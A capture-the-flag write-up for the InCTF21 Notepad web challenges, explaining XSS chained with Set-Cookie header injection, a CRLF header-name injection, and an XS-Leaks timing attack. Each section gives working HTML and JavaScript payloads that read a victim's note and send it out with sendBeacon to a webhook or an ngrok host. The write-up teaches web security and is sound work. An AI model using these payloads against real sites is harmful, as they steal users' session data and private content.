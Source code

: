 # Notepad Series - InCTF21

## Initial Analysis:

All three challenges almost had the same base code with slight changes leading to different vulnerabilities. The challenge is a notepad application, where a user can enter whatever data they want. Only one note can be stored at a time. The notes are mapped to the user using their cookie. All the notes are retrieved from `/get` endpoint. Other endpoints are `/add` which adds a new note and `/find`. The `/find` endpoint is interesting. It has several parameters like `condition`, `startsWith`, `endsWith` and `debug`. The `debug` parameter which when set, can add a header in the response if your note doesn't match your query. The

ie., consider the user's note to be `inctfi_123` and the request is `/find?startsWith=incth&debug&addnew=param`, the response would contain `addnew: param` as a header, but, if it is `/find?startsWith=inctf&debug&addnew=param`, the response contains no additional header. 

Note: The cookie is set to HTTPOnly for all the challenges and SameSite is Lax except for the last challenge. The `/find` api has the following headers set to it be default  

```go
"Content-Type":            "text/plain",
"x-content-type-options":  "nosniff",
"X-Frame-Options":         "DENY",
"Content-Security-Policy": "default-src 'none';",
```

# Notepad 1 - Snakehole's Secret  

**Number of Solves**: 21  
**Points**: 823  
**Source**: [https://github.com/Az3z3l/Notepad1-Snakeholes_Secret/](https://github.com/Az3z3l/Notepad1-Snakeholes_Secret/)  

### Challenge Description

Janet Snakehole, the rich aristocratic widow with a terrible secret, is being investigated by the FBI's number 1, Burt Tyrannosaurus Macklin. Burt found a website that she visits often. See if you can find anything.

### Solution

In this challenge the note of the user is inserted into the HTML document using `innerHTML` and no sanitization is done on the backend. So a user insert arbitrary HTML and get XSS. But this is just a self-XSS. To get XSS on the admin side, we can use the /find api to set a `Set-Cookie` header and use our own cookie on admin. The final payload is  
```html
<!-- Attacker's note -->
<img src/onerror="eval(window.name)"> 

<!-- Setting a cookie with your Cookie -->
<script>
    window.open(`http://chall.notepad1.gq:1111/find?startsWith=d&debug=y&Set-Cookie=id=${cookie}%3B%20path=/get`)
    // Set cookie to /get so it doesn't delete existing admin cookie
</script>

<!-- Exploiting it -->
<script>
    window.open("http://chall.notepad1.gq:1111",name=`document.cookie='id=${cookie}; expires=Thu, 01 Jan 1970 00:00:00 UTC;path=/get;';document.cookie=x;fetch('/get').then(response=>response.text()).then(data=>navigator.sendBeacon('${webhook}',data));`)
    // Delete the cookie set by you and then retrieve admin's flag
</script>

```
**Flag:** `inctf{youll_never_take_me_alive_ialmvwoawpwe}`


# Notepad 1.5 - Arthur's Article

**Number of Solves**: 16  
**Points**: 900  
**Source**: [https://github.com/Az3z3l/Notepad1-Snakeholes_Secret/](https://github.com/Az3z3l/Notepad1-Snakeholes_Secret/)  

### Challenge Description

Arthur Morgan was asked to retrieve an important article from Cornwall's computer. Help him steal it.

### Solution

In this challenge, the XSS bug is removed and the Header setting part gets weird.

```go
for v, d := range param {
    for _, k := range d {

        if regexp.MustCompile("^[a-zA-Z0-9{}_;-]*$").MatchString(k) && len(d) < 5 {
            w.Header().Set(v, k)
        }
        break
    }
    break
}
```
In, Notepad 1, the `Header name` was compared with a regex, but in this challenge, only the value is compared with a regex. With a bit of testing, one can understand that `Header().Set()` is vulnerable to a CRLF bug in the name parameter. Final payload that can be used is

```html
<script>
    window.open("http://chall.notepad15.gq/find?startsWith=asd&debug=2&A:asd%0AContent-Type:text/html%0A%0A%3Chtml%3E%3Cscript%3Eeval(window.name)%3C/script%3E", name=`fetch('/get').then(response=>response.text()).then(data=>navigator.sendBeacon('${webhook}',data))`)
</script>
```
**Flag:** `inctf{red_dead_rezoday_ialmvwoawpwe}`

### Unintended for Notepad 1 and Notepad 2

Some of the unintended ways using Xsleaks are, `Refresh` header with a redirection back to a webhook and `Content-Disposition` header to download the page and check for navigation. 

# Notepad 2 - Ken's Chronicle

**Number of Solves**: 14  
**Points**: 925  
**Source**: [https://github.com/Az3z3l/Notepad2-Kens_Chronicle/](https://github.com/Az3z3l/Notepad2-Kens_Chronicle/)

### Challenge Description

"Years ago, when I was backpacking across Western Europe, I was just outside of Barcelona, hiking in the foothills of Mount Tibidabo. I was at the end of this path, and I came to a clearing, and there was a lake, very secluded, and there were tall trees all around. It was dead silent. Gorgeous. And across the lake, I saw a beautiful woman bathing herself. But she was crying...". There is a rumor that the rest of the story is on this website. Help Ken Adams uncover it.

### Solution

This challenge was based on [XSLeaks](https://xsleaks.dev/). The challenge uses a `Secure` cookie with SameSite as `None`. One other important difference in this challenge is the typo `"X-Frame-Options": "DENI",`. This allows the page to open in an Iframe. The Header setting part is shown below. 

```go
for k, v := range param {
    for _, d := range v {

        if regexp.MustCompile("^[a-zA-Z0-9{}_;-]*$").MatchString(k) && !regexp.MustCompile("[A-Za-z]{7}-[A-Za-z]{11}").MatchString(k) && len(d) < 4 && len(k) < 39 {
            w.Header().Set(k, d)
        }
        break
    }
    break
}
```

In this, we are allowed to set only a Header value of less than 4 characters. And it also disallows a Header name that matches `[A-Za-z]{7}-[A-Za-z]{11}`(Intent was to block Content-Disposition). The idea was to use `Timing-Allow-Origin: *` header. This header allows the host to use the performance api on the request used to fetch that resource. Without Timimg-Allow-Origin header, performance api doesn't give back the full result, but a minified version of it.   

The state I used in my POC was `nextHopProtocol`, which would be equal to "" if the header was not set. So, if our startsWith is correct, `nextHopProtocol` would be empty. 

Exploit:
```html
<html>
    <head>
        <title>Exploit - Ken's Chronicle</title>
    </head>

    <body>

    </body>
    <script>
        async function run() {
            startsWith = window.location.search.substring(1);


            characterSet = "abcdefghijklmno"
            characterSet += "pqrstuvwxyz_{}"


            for (var j = 0; j < characterSet.length; j++){
                bf = startsWith + characterSet[j]
                url = `https://7649ac48b82b.ngrok.io/find?startsWith=${bf}&debug&Timing-Allow-Origin=*`
                
                var iframe = document.createElement('iframe');
                iframe.src = url;
                iframe.onload = "alert()"
                document.body.appendChild(iframe);

            }
        }
        function sleep(ms) {
            return new Promise(resolve => setTimeout(resolve, ms));
        }

        function checker(){
            list = window.performance.getEntriesByType("resource");
            console.log(list)
            for (i=0; i<list.length; i++){
                curr = list[i]
                if (curr.nextHopProtocol == ""){
                    try {
                        navigator.sendBeacon(`?flag=${curr.name.split("startsWith=")[1].split("&")[0]}`)
                    } catch (error) {
                        console.log(error)
                    }
                }
            }
        }

        async function doit() {
            run()
            await sleep(10000);
            checker()
        }
        doit()
    </script>


</html>
```

One other way to do this is use `Refresh` header and counting the onload events. Since this challenge uses a SameSite: None, has no Iframe protections, aaand the number of headers we can use are vast, there are quite a number of ways to solve this. 

**Flag:** `inctf{tis_a_mooo_point_lkbsdgbyhsl}`